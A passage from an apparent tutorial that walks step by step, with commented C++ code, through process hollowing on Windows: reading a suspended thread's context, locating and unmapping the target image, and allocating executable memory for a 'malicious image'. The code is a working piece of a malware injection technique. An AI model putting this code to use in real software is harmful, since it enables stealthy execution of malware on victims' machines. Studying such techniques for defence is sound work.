 ```cpp
c.ContextFlags = CONTEXT_INTEGER; // Only stores CPU registers in the pointer
GetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to store retrieved context
); // Obtains the current thread context

PVOID pTargetImageBaseAddress; 
ReadProcessMemory(
	target_pi->hProcess, // Handle for the process obtained from the PROCESS_INFORMATION structure
	(PVOID)(c.Ebx + 8), // Pointer to the base address
	&pTargetImageBaseAddress, // Store target base address 
	sizeof(PVOID), // Bytes to read 
	0 // Number of bytes out
);
```

After the base address is stored, we can begin un-mapping memory. We can use `ZwUnmapViewOfSection` imported from _ntdll.dll_ to free memory from the target process.

```cpp
HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll"); // Obtains the handle for ntdll
pfnZwUnmapViewOfSection pZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)GetProcAddress(
	hNtdllBase, // Handle of ntdll
	"ZwUnmapViewOfSection" // API call to obtain
); // Obtains ZwUnmapViewOfSection from ntdll

DWORD dwResult = pZwUnmapViewOfSection(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress // Base address of the process
);
```

At step four, we must begin by allocating memory in the hollowed process. We can use `VirtualAlloc` similar to _step two_ to allocate memory. This time we need to obtain the size of the image found in file headers. `e_lfanew` can identify the number of bytes from the DOS header to the PE header. Once at the PE header, we can obtain the `SizeOfImage` from the Optional header.

```cpp
PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMaliciousImage; // Obtains the DOS header from the malicious image
PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew); // Obtains the NT header from e_lfanew

DWORD sizeOfMaliciousImage = pNTHeaders->OptionalHeader.SizeOfImage; // Obtains the size of the optional header from the NT header structure

PVOID pHollowAddress = VirtualAllocEx(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	sizeOfMaliciousImage, // Byte size obtained from optional header
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x40 // Enabled execute and read/write access (PAGE_EXECUTE_READWRITE)
);
```
